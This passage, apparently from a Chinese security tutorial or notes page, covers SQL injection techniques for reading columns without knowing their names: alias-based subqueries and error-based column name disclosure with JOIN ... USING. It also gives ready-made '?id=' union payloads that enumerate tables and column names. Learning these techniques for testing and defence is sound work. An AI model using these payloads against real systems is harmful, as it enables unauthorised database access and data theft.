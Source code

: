 当然咯，若果反引号 ` 不能使用的时候，我们可以使用别名来代替：

```sql
select b from (select 1,2,3 as b,4,5 union select * from users)a;
select b from (select 1,2,(3)as b,4,5 union select * from users)a;
select b from (select 1,2,(3) b,4,5 union select * from users)a;
select b from (select 1,2,3 b,4,5 union select * from users)a;
上面这四个效果是一样的
select group_concat(b,c) from (select 1,2,3 as b,4 as c,5 union select * from users)a;  //在注入中查询多个列：
```



##### 2. join······using显错注列名

通过系统关键词join可建立两个表之间的内连接。通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

我们可以利用爆错，借助join和using爆出列名，id为第一列，username为第二列，可以逐个爆出，爆出全部列名之后即可得到列内数据。

```sql
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c
```

###### 记录一下payload:

爆表：

```sql
schema_auto_increment_columns
?id=-1' union all select 1,2,group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database()--+

schema_table_statistics_with_buffer
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

爆列名：

```sql
获取第一列的列名
?id=-1' union all select * from (select * from users as a join users as b)as c--+
报错中得到第一列名：id
?id=-1' union all select * from (select * from users as a join users as b using(id))as c--+
得到第二列名：username
获取后续列名
?id=-1' union all select*from (select * from users as a join users as b using(id,username))as c--+
?id=-1' union all select*from (select * from users as a join users as b using(id,username,password))as c--+
数据库中as主要作用是起别名，常规来说都可以省略，但是为了增加可读性，不建议省略。
```

